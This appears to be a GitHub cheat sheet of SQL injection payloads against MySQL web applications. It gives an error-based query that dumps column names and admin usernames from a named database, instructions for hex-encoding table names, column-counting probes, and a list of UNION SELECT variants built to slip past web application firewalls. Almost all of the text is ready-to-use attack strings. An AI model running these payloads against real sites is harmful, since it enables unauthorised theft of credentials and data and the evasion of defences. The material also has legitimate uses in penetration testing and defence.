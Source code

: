 ```
The given query will dump the first column inside **username** table. *NOTE:* Please replace the following hex values with your hex values.

```+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(column_name+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name=0x757365726e616d65+AND+table_schema=0x6c69746f666c6578+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)-- -```  

To dump the second column of **username** table, replace (+LIMIT+**0**,1) with (+LIMIT+**1**,1)  
To dump the third column of **username** table, replace (+LIMIT+**1**,1) with (+LIMIT+**2**,1)  and so on...

The first column is the one I am going to dump. Given query will output the data inside the first column: **admin_username**
Before going further, convert the database name, table name and column(s) 0xHEX. This case I will dump data inside **admin_username** column.  

Converting from string to 0xHEX:  
```
litoflex -> 0x6c69746f666c6578  
username -> 0x757365726e616d65
admin_username -> 0x61646d696e5f757365726e616d65
```

The final payload would be:  
```+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(CONCAT(admin_username)+AS+CHAR),0x7e))+FROM+litoflex.username+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)-- -```

The error will output the data that we aimed at.  

## Bypassing Error message: The used SELECT statements have a different number of columns (Second method + WAF Bypass)

The given query will find how many columns the database has:  

```http://domain.com.br/index.php?id=1' GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100-- -```

The error shows that the database has 14 columns  
>Unknown column '**15**' in 'group statement'

Given queries finds which of 14 columns is vulnerable.

```https://domain.com.br/index.php?id=1& n=19901' Union Select 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- -```  
```https://domain.com.br/index.php?id=1& n=-19901' Union Select 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- -```

Same payloads but built for WAF bypassing using UNION based queries:
```
    http://domain.com/index.php?id=1& n=19901' /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %55nion(%53elect 1,2,3) 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1&+n=19901'+union+distinctROW+select+1,2,3,4,5,6,7,8,9,10,12,13,14--+-  
    http://domain.com/index.php?id=1& n=19901' #?uNiOn + #?sEleCt 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' + #?1q %0AuNiOn all#qa%0A#%0AsEleCt 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!%55NiOn*/ /*!%53eLEct*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +un/**/ion+se/**/lect 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +?UnI?On?+'SeL?ECT? 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901'(UnIoN)+(SelECT)+1,2,3,4,5,6,7,8,9,10,12,13,14--+-  
    http://domain.com/index.php?id=1& n=19901' +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %55nion(%53elect 1,2,3,4,5,6,7,8,9,10,12,13,14)-- -  
    http://domain.com/index.php?id=1& n=19901' /**//*!12345UNION SELECT*//**/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /**//*!50000UNION SELECT*//**/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  